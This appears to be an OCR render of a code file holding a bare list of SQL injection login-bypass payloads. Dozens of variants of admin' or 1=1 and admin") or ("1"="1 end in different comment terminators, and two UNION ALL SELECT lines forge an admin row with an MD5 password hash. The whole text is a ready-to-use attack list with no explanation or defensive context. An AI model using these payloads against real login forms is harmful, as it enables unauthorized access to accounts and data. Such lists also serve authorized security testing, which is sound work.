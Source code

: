 admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
admin" --
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
